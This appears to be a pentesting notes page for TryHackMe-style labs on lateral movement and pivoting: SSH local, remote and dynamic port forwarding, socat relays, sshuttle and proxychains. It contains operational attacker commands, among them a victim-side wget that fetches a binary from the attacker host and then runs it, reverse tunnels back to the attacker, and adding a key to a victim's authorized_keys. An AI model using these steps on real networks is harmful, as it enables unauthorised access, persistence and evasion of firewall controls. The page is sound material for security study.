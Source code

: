 # Lateral Movement and Pivoting

## SSH Proxy Chaining

### SSH Local Port Forwarding

**Examples**

[game-zone.md](../../walkthroughs/tryhackme/game-zone.md "mention")[internal.md](../../walkthroughs/tryhackme/internal.md "mention")[kitty.md](../../walkthroughs/tryhackme/kitty.md "mention")

**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Allows us to gain access to the service running on port 10000 from Kali that was only accessible to the victim from their machine.

**Kali**

```
ssh -L 10000:localhost:10000 $USERNAME@$VICTIM
Password: $ASSWORD
```

### SSH Remote Port Forwarding

**Examples**

&#x20;[#ssh-remote-port-forwarding](../../walkthroughs/tryhackme/lateral-movement-and-pivoting.md#ssh-remote-port-forwarding "mention")

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

<figure><img src="../../.gitbook/assets/image (110) (1).png" alt=""><figcaption></figcaption></figure>

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

<figure><img src="../../.gitbook/assets/image (112) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
useradd tunneluser
passwd tunneluser
```

**Victim**

```
ssh tunneluser@$KALI -R 8888:thmdc.za.tryhackme.com:80 -L *:1990:127.0.0.1:1990 -L *:1029:127.0.0.1:1029 -N
```

## Socat

**Examples**

[#port-forwarding-and-finding-flag](../../walkthroughs/tryhackme/magician.md#port-forwarding-and-finding-flag "mention")

**Kali**

```
wget https://github.com/aledbf/socat-static-binary/releases/download/v0.0.1/socat-linux-amd64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://$KALI:81/socat-linux-amd64
chmod +x socat-linux-amd64 
./socat-linux-amd64  tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
```

## sshuttle

**Examples**

[internal.md](../../walkthroughs/tryhackme/internal.md "mention")

**Kali**

```
apt install sshuttle
sshuttle -r $USERNAME@$VICTIM 127.0.0.1/24
Password: $PASSWORD
```

### SSH

**Examples**

[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")[vulnnet-internal.md](../../walkthroughs/tryhackme/vulnnet-internal.md "mention")

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub
```

**Victim**

copy paste id\_rsa.pub from Kali to the Victim server

```
copy id_rsa.pub to /home/$VICTIM/.ssh/authorized_keys
```

**Kali**

```
vi /etc/proxychains.conf
```

**proxychains.conf**

```
socks4 	127.0.0.1 9050
```

**Kali**

```
ssh -D 9050 $USERNAME@VICTIM
```

<figure><img src="../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>



I can now see the webpage from Kali but no login credentials to use.

<figure><img src="../../.gitbook/assets/image (40) (4).png" alt=""><figcaption></figcaption></figure>



